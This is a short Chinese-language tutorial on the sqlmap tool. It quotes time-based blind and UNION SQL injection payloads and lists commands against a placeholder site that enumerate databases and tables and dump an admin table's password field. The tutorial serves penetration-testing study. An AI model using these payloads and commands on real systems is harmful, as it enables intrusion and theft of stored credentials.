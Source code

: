 测试注入点(一般): sqlmap -u "要进行注入测试的URL"
如果出现 

python sqlmap.py -u "URL"
```
Parameter: id (GET)
    Type: time-based blind
```

等信息, 说明注入点可以注入
包含的信息有

// 参数: 参数名(请求方法)
            
Parameter: id (GET)

    // 注入类型: 例如这里是 时间盲注
    `Type: time-based blind`
	// 一些信息
    `Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)`
	// payload, playload就是可以验证漏洞的一个语句
    `Payload: id=1' AND (SELECT 1117 FROM (SELECT(SLEEP(5)))zEna) AND 'vTMB'='vTMB`
	
	// 类型(这里是第二种类型，有的注入点可能只有一个注入类型，有的很可以有多个)，这里的类型是 联合查询注入
    `Type: UNION query`
    `Title: Generic UNION query (NULL) - 2 columns`
    `Payload: id=1' UNION ALL SELECT` `NULL,CONCAT(0x71626b7671,0x42476a4d566b596a6a46575656467773664e64756f575743645a48495a6e797a674b705478527865,0x716b767671)-- OtOY---`
    
检查注入点：
sqlmap -u http://aa.com/star_photo.php?artist_id＝11

爆所有数据库信息：
`sqlmap -u http://aa.com/star_photo.php?artist_id＝11 --dbs`

爆当前数据库信息：
`sqlmap -u http://aa.com/star_photo.php?artist_id＝11 --current-db`

指定库名列出所有表:
`sqlmap -u http://aa.com/star_photo.php?artist_id＝11 -D vhost48330 --tables`

'vhost48330' 为指定数据库名称

指定库名表名列出所有字段
`sqlmap -u http://aa.com/star_photo.php?artist_id＝11 -D vhost48330 -T admin --columns`
'admin' 为指定表名称

指定库名表名字段dump出指定字段
`sqlmap -u http://aa.com/star_photo.php?artist_id＝11 -D vhost48330 -T admin -C ac，id，password --dump`
'ac,id,password' 为指定字段名称

查看当前数据库所连接的用户
`sqlmap -u "url" --current-user`

查看所有用户的权限
`sqlmap -u "url" --privileges`